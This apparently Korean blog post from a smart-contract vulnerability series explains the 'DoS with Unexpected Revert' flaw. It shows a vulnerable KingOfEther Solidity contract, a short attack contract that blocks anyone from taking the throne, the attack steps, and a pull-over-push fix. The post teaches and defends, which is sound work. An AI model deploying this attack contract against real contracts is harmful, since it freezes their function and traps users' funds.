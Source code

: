 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 6) DOS With Unexpected Revert
date: '2021-12-29 11:29:00'
author: 한성원
tags: DOS Unexpected Revert UnexpectedRevert 취약점 SmartContract
categories: 취약점분석
---
```



# 👋 Unexpected Revert

## Unexpected Revert란?
Unexpected Revert는 이름에서 알 수 있듯이, 트랜잭션을 고의적 revert시킴으로써 스마트 계약이 작동되지 않는 상태로 만드는 취약성입니다.

- - -

## Example code

```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/denial-of-service/</span> 

시나리오는 이렇다.
1. KingOfEther of Ether Contract가 배포된다.
2. 처음으로 A가 1 Ether를 claimThrone()에 보냄으로써 King이 된다.
2. 다음으로 B가 2 Ether를 claimThrone()에 보냄으로써 B가 King으로 바뀐다. King이 바뀌기 전에 A에게 1 Ether를 refund 해준다.
3. C가 KingOfEther의 주소와 함께 Attack contract를 배포한다.
4. C는 Attack.attack을 3 Ether와 함꼐 호출한다. 
5. C는 C는 king이 되고 Attack contract는 ether를 받을 수 없기 때문에 다른 누구도 king이 될 수 없게 된다. 즉 KingOfEhter은 무의미한 contract가 된다.

EVM이 externally owned accounts와 contract accounts를 구분하지 않는다는 점을 악용한 것 같아보인다. 

- - -

## How to prevent?
#### __pull over push__
pull over push를 통해 문제를 해결 할 수 있다. pull over push는 contract를 분리함으로써 attacker의 공격을 attacker의 손실로만 처리 할 수 있다. 위의 코드를 pull over push로 바꾸어보았다.

```solidity
contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

이 코드는 Example 코드의 claimThrone() function이 2개의 function으로 나누어 진 것을 볼 수 있다. 위 코드의 claimThrone()는 king을 바꾸는 용도로만 사용된다. 그리고 king에서 쫒겨난 사람들은 withdraw 함수를 통해 ether를 다시 가져올 수 있다.

```
## 마무리
취약점들에 대해서 공부하면서 나는 EVM에 대해서 알아가야 할 부분이 많다는 생각이 든다. ~~잘안다고 생각했는데ㅋㅋ~~ 갈 길이 멀다!! 꾸준히 공부하자:)

- - -

### Reference
- https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert
- https://solidity-by-example.org/hacks/denial-of-service/
- https://consensys.github.io/smart-contract-best-practices/recommendations/#favor-pull-over-push-for-external-calls
- https://arxiv.org/pdf/2105.02852.pdf

```toc

```